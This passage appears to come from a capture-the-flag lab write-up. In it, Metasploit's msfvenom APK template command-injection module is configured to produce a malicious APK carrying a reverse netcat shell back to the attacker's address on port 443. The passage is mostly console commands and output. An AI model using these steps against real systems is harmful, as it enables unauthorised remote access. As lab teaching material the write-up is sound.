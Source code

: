 ### Build Payload

There’s also a metasploit exploit for this vulnerability which I found more
reliable than the Python script:

    
    
    oxdf@parrot$ msfconsole
    ...[snip]...
    msf6 > search msfvenom
    
    Matching Modules
    ================
    
       #  Name                                                                    Disclosure Date  Rank       Check  Description
       -  ----                                                                    ---------------  ----       -----  -----------
       0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection
    
    
    Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
    
    msf6 > use 0
    [*] No payload configured, defaulting to cmd/unix/reverse_netcat
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) >
    

The default options work, so I’ll just set my host and port:

    
    
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.15
    LHOST => 10.10.14.15
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 443
    LPORT => 443
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > options
    
    Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       FILENAME  msf.apk          yes       The APK file name
    
    
    Payload options (cmd/unix/reverse_netcat):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port
    
       **DisablePayloadHandler: True   (no handler will be created!)**
    